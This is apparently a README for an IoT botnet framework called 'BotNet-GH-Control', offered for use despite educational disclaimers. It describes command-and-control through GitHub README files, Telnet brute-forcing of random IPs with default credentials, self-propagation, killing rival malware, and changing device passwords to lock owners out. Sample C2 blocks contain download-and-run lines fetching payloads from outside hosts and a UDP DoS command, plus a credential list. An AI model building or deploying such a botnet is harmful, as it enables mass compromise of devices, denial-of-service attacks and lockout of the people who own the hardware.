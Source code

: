 * C2 over GitHub raw links (multiple fallback READMEs)
* Brute-force login over Telnet
* Killer module that removes other malware
* "Permakill" feature: changes device login credentials

⚠️ **DISCLAIMER:** This content is strictly for *educational and authorized penetration testing* in controlled lab environments. Misuse of such tools is **illegal**.

---

### 🧠 Project: `BotNet-GH-Control`

> A simulated IoT botnet framework controlled via multiple GitHub `README.md` files. Supports brute-force propagation, malware killing, and credential lockdown.

---

### ✅ Features

* 📦 **Command & Control** via multiple GitHub `README.md` files
* 🔁 **Fallback Mechanism**: rotates through GitHub links until a working `### run` section is found
* 🕷️ **Brute-Forcing Engine**: cracks Telnet devices using default credentials
* ⚔️ **BotKiller Module**: terminates known malware processes and ports
* 🛡️ **Permakill Mode**: replaces Telnet credentials to block re-infection
* 🚀 **Async-Driven**: high-speed, concurrent scanning and infection

---

### 🗂️ GitHub `README.md` Format (C2)

Each C2 GitHub `README.md` must include a `### run` section:

```
### run
cmd echo Bot active on device
download http://malic.io/payload.sh /tmp/payload.sh RUN
dos 192.168.0.10 80 30
```

**Supported Commands:**

| Command     | Description                                |
| ----------- | ------------------------------------------ |
| `cmd`       | Executes shell commands                    |
| `download`  | Downloads and optionally runs files        |
| `dos`       | Performs a basic UDP DoS attack            |
| `permakill` | Changes device credentials to block access |
| `selfkill`  | Terminates self on the device              |

---

### 🧰 Default Credentials Format

Provide a text file like `creds.txt` with lines:

```
admin:admin
root:1234
user:password
```

---

### 📁 Files & Structure

```bash
bot.py               # Main infection and C2 logic
brute_force.py       # Telnet brute-forcing
killer.py            # Process killer module
permakill.py         # Changes credentials after install
github_c2.py         # C2 polling from multiple README.md links
creds.txt            # Default credential pairs
readmes.txt          # List of GitHub raw README.md C2 links
hits.txt             # Infected and confirmed targets
```

---

### 🚀 Execution Flow

1. Loads GitHub `README.md` URLs from `readmes.txt`
2. Finds the first with a `### run` section
3. Executes each command listed
4. If `brute` is enabled:

   * Scans random IPs
   * Brute-forces Telnet with `creds.txt`
   * On success, runs `bot.py` on target
5. Kills competing malware using `killer.py`
6. Replaces device credentials with `permakill.py` (if `permakill` enabled)

---

### 🧪 Sample C2 Behavior

```
### run
cmd uname -a
download http://your.c2.net/bin/armv7 /tmp/a RUN
permakill newuser:newpass
```

---

### 🛑 Legal Notice

> This project is intended **only** for:
>
> * Ethical hacking education
> * Red team exercises in controlled environments
> * Simulated botnet defense training

**Unauthorized use will violate criminal law.**
Always obtain explicit **written permission** before testing networks or devices.
